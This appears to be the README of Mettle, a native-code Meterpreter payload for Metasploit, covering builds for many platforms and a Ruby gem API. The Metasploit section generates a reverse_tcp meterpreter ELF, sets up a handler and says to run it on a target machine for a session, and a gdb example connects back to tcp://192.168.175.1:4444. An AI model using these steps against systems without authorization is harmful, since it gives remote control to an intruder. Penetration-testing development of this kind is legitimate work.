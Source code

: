 # Mettle

This is an implementation of a native-code Meterpreter, designed for  portability, embeddability, and low resource 
utilization. It can run on the smallest embedded Linux targets to big iron, and targets Android, iOS, macOS, Linux, and 
Windows, but can be ported to almost any POSIX-compliant environment.

## Building on Linux

Debain, Ubuntu, and derivatives are most supported for builds. To build, you need at least 5GB of free disk space, and 
the following packages available:

```
# Dependencies
apt install curl build-essential git autoconf automake libtool bison flex gcc ruby rake bundler git mingw-w64
```

The Dockerfile under docker/Dockerfile contains a pre-configured build environment as well.

## Building on macOS

On macOS you will need to install the xcode command line tools as follows:

```
xcode-select --install
```

## Make Targets

For general development, there are a few make targets defined:

Running `make` will build for the local environment. E.g. if you're on macOS,it will build for macOS using your native 
compiler and tools.

`make TARGET=triple` will build for a specific host triple. See below for some common ones.

`make clean` will clean the 'mettle' directory for the current build target

`make distclean` will clean the entire build target`

`make all-parallel` will build for every known target, useful with '-j' to build multiple targets at once.

`make clean-parallel` and `make distclean-parallel` do similar for all targets.

# Packaging

To build the gem for distribution (currently requires Linux or macOS):

```
rake build
```

To check the resulting binaries:

```
rake check
```

To completely reset your dev environment and delete all binary artifacts:

```
rake mettle:ultraclean
```

## Gem API

To generate a payload with Mettle:
```ruby
mettle = MetasploitPayloads::Mettle.new(platform_triple, config={})
```

The available platform triples for Linux targets are:

* `aarch64-linux-musl`
* `armv5l-linux-musleabi`
* `armv5b-linux-musleabi`
* `i486-linux-musl`
* `x86_64-linux-musl`
* `powerpc-linux-muslsf`
* `powerpc64le-linux-musl`
* `mips-linux-muslsf`
* `mipsel-linux-muslsf`
* `mips64-linux-muslsf`
* `s390x-linux-musl`

For Mingw32-64 Windows targets, the following triples are added. On up-to-date Debian / Ubuntu systems, the `mingw-w64` 
package will install both toolchains.

* `x86_64-w64-mingw32`
* `i686-w64-mingw32`

For macOS/iOS builds, the following triples are added. To target older macOS/OSX versions, see 
https://github.com/phracker/MacOSX-SDKs to get the appropriate SDK folder.

* `arm-iphone-darwin`
* `aarch64-iphone-darwin`
* `i386-apple-darwin`
* `x86_64-apple-darwin`
* `aarch64-apple-darwin`

Available config options are:
* `:background` - fork to background as a daemon
* `:debug` - to turn on debug messages
* `:log_file` - the file to send debug messages to instead of `stderr`
* `:uri` - the uri to connect back to
* `:uuid` - the UUID to identify the payload

Config options can also be set with:
```ruby
mettle.config[:key] = val
```

To get a binary with installed options call:
```ruby
mettle.to_binary(format=:process_image)
```

The formats are:
* `:exec` - a standalone executable that can take command-line arguments (see `mettle -h`) or use pre-set ones
* `:process_image` - a process image that must be started with a custom stack (see `doc/stack_requirements.md`)


## Using with Metasploit

To pull your local changes of mettle into your Metasploit install:

1. Add `-dev` to the version in `lib/metasploit_payloads/mettle/version.rb`:
```
# -*- coding:binary -*- 
module MetasploitPayloads 
  VERSION = '1.0.28-dev'

  def self.version 
    VERSION 
  end 
end
```
2. Build the gem with:
```
rake build 
```
3. Copy `pkg/metasploit-payloads-mettle-X.X.X.pre.dev.gem` to the box you are using for Metasploit if it is different
4. Change the version in your `metasploit-framework.gemspec` to match the one you just built:
```
spec.add_runtime_dependency 'metasploit_payloads-mettle', '1.0.28-dev'
```  
5. `gem install <path to new gem>` (for example: 'metasploit_payloads-mettle', '0.4.1.pre.dev')
```
gem install metasploit_payloads-mettle-1.0.28.pre.dev.gem 
```
6. Run `bundle install` in your Framework directory, and ensure you see something like the following in the output:
```
Using metasploit_payloads-mettle 1.0.28.pre.dev (was 1.0.26)
```

Within `msfconsole`:
7. Use an appropriate payload:
```
use payload/linux/x64/meterpreter/reverse_tcp 
```

8. Generate the payload:
```
generate -f elf -o mettle.elf
```

9. Change the file permissions:

```
chmod +x mettle.elf
```

10. Set up a handler
```
to_handler
```

11. Move the payload to the target machine and run it, you should now get back a session on `msfconsole`!


## Docker
The following steps make use of `gdb` for debugging.
1. Run the Docker container:
```
sudo docker run -it -v $(pwd):$(pwd) -w $(pwd) rapid7/build:mettle /bin/bash
```

2. Within the container run the following commands:
```
sudo apt-get update
sudo apt-get install gdb
```

3. Compile(`D=1` enables debugging):
```
make clean

make D=1
```

4. Then run with `gdb`:
```
gdb --args /home/ubuntu/code/mettle/build/linux.x86_64/bin/mettle --debug 3 --uri "tcp://192.168.175.1:4444"
```

5. Once within `gdb` run the following commands:
```
b *main

 run
```

6. To get breakpoint in `gbd` add the following into your code:
```
__asm("int3");
```

### TUI
[TUI](https://sourceware.org/gdb/current/onlinedocs/gdb.html/TUI.html) allows `gdb` to show the code above the terminal
for easier code traversal when debugging. _Note_ TUI will remove use of arrows for navigating console history.

## Pushing out a New Gem

Build CI will automatically publish new gems when commits land to master and pass build.
1. Test Locally
2. Land the changes to upstream master
3. Monitor for the new gem on rubygems.org
4. Once the gem appears, make a PR for bumping the version in framework
